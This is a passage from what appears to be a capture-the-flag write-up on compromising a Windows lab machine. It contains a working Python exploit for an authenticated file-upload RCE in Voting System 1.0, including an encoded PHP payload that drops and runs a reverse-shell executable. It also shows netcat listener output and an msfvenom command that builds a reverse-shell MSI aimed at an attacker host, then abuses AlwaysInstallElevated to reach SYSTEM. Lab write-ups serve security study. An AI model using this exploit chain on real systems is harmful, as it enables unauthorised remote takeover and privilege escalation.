b6lPztu86tVUuxePD25Uq6SZi/srizBWcgzGhPAwR7Z/5GkFLc2z7TOdM9if/6ADM0mFNQ9IQPpl+2JO8ec78bsd7GDAgT36LepLCyVqCAyCC8s4KkM6lZ3Xi13kctDIuZ+JalYDn9jaPD2UllObdJQzj4yLyVC+4QOAk8BANRN5eIRWen8JWOAwNyVyYJg+l2yTdEN3a6crkeIi3FnRAPUXKspM4Vcwc15YJHi5VrTULwkp3OmpyJMFZo5iKwRP4ecGx8X40QcYB5gm2KyxVHaI8DYCMi7Yyxi7NBQoYbzpVNoC87VkFDfaVHMDQYOEjSKL2BmKhG1/LHnxYCSEc06Um6OdpR6YZXcrhCzNt/O8QhgnTpRpVW78NVf1erdoBnNLmSh8RzdaOITCsu/p7fusfAjXE/dPkH4ppr2ALXgLPEER7G2OwW6Z9OZ1N24MNQhe1Vj0xmIY+MYx6rLYR1BG010DtIJjzC+bWIA+FU3QTtTvRle4hhLsPBGByJjRrAPVTPWEPH0y/MkC8YqIXNy2e1FgGMGMzuVYlHT92GhoAIwDoCdYmOEDPBw2FnoAJ3euzGO01InJYhPqH0HJEE9yte5EY8fRMAnJ45sUESifocFozaHmMHM5FAf0ZKTqi1cYQpH7mVUFM/DYwLhG5b9h9Ar16GihfI3DLT4qJj5kBkwzHZ4iG+rVoUqKX6auNa2O2YeKQ20JDCFuzDVjZpP5VO6QZ9ItFEMucDQ2ghgNMf1Nkgm224TYiMJv+469Iu2UkpZGCljZxAC2qdoI39ncSYeIA/y//C6S0HQBE7X/EvkBjzZ+wSjQu+RNWj8bG9v++bjOK30O1H9XnqGJvAwD99pu5eW8t+631fGsjQ2PXh/J8vD1CeDxApspOU8LoMU4KJMZ581H0jRsdHPmWAfAUQhFPkqoUKvO4ABAuhmeeT1yRSClWqQBgg+T10QzFYPRo91vMlUoVab9FYUqxGP3m0FzJ6+TXiQBfokhF//zoHVuRlimG0dozN+f/O7/5vwA=";
$evalCode = gzinflate(base64_decode($payload));
$evalArguments = " ".$port." ".$ip;
$tmpdir ="C:\\windows\\temp";
chdir($tmpdir);
$res .= "Using dir : ".$tmpdir;
$filename = "D3fa1t_shell.exe";
$file = fopen($filename, 'wb');
fwrite($file, $evalCode);
fclose($file);
$path = $filename;
$cmd = $path.$evalArguments;
$res .= "\n\nExecuting : ".$cmd."\n";
echo $res;
$output = system($cmd);

?>
"""
payload = payload.replace("IIPP", REV_IP)
payload = payload.replace("PPOORRTT", REV_PORT)

s = requests.Session()

def getCookies():
    r = s.get(INDEX_PAGE)
    return r.cookies

def login():
    cookies = getCookies()
    data = {
        "username":USERNAME,
        "password":PASSWORD,
        "login":""
    }
    r = s.post(LOGIN_URL, data=data, cookies=cookies)
    if r.status_code == 200:
        print("Logged in")
        return True
    else:
        return False

def sendPayload():
    if login():
        global payload
        payload = bytes(payload, encoding="UTF-8")
        files  = {'photo':('shell.php',payload,
                    'image/png', {'Content-Disposition': 'form-data'}
                  )
              }
        data = {
            "firstname":"a",
            "lastname":"b",
            "password":"1",
            "add":""
        }
        r = s.post(VOTE_URL, data=data, files=files)
        if r.status_code == 200:
            print("Poc sent successfully")
        else:
            print("Error")

def callShell():
    r = s.get(CALL_SHELL, verify=False)
    if r.status_code == 200:
        print("Shell called check your listiner")
print("Start a NC listner on the port you choose above and run...")
sendPayload()
callShell()
```

### Reference

[Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)](https://www.exploit-db.com/exploits/49445)

## Listen to Reverse Shell and Exploit

```bash
python exploit.py
```

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.48.103.
Ncat: Connection from 10.129.48.103:64212.
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami /user
whoami /user

USER INFORMATION
----------------

User Name   SID                                          
=========== =============================================
love\phoebe S-1-5-21-2955427858-187959437-2037071653-1002

C:\xampp\htdocs\omrs\images>
"
```

# Privilege Escalation

## Using Privilege Escalation Script to Find Exploit

[](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat)

## Executing winPEAS

If we want to exploit AlwaysInstallElevated, Both `HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer` and `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer` should be set to True

```bash
.\winPEAS.bat

"
[+] AlwaysInstallElevated?
   [i] If '1' then you can install a .msi file with admin privileges ;)
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
"
```

## Generating Reverse Shell to exploit AlwaysInstallElevated policy

> You can use the ***AlwaysInstallElevated*** policy to install a Windows Installer package with elevated (system) privileges. - [Microsoft](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)
> 

Here we are going to make a installer package to install(execute) our reverse shell in privileged mode

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=4443 -f msi -o reverse.msi
```

## Listen to Reverse Shell and Exploit

```bash
nc -lvnp 4443

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.129.90.249.
Ncat: Connection from 10.129.90.249:59000.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /user
whoami /user

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18

C:\WINDOWS\system32>
"
```

Let’s execute our reverse shell msi file

```bash
msiexec -i reverse.msi
.\reverse.msi
```